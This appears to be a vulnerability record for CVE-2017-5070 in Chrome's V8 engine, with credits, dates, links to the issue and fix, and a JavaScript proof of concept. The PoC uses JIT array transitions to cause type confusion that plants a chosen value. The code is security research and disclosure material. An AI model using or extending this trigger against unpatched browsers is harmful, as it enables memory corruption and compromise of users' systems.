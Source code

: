 # CVE-2017-5070

- Report: Apr 2017
- Fix: May 2017
- Credit: Zhao Qixun(@S0rryMybad) of Qihoo 360 Vulcan Team

## PoC

```javascript
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
+assertEquals(expected, double_arr2[1]);
```

## Reference

- [Issue](https://crbug.com/722756)
- [Fix](https://chromium.googlesource.com/v8/v8.git/+/e33fd30777f99a0d6e16b16d096a2663b1031457)
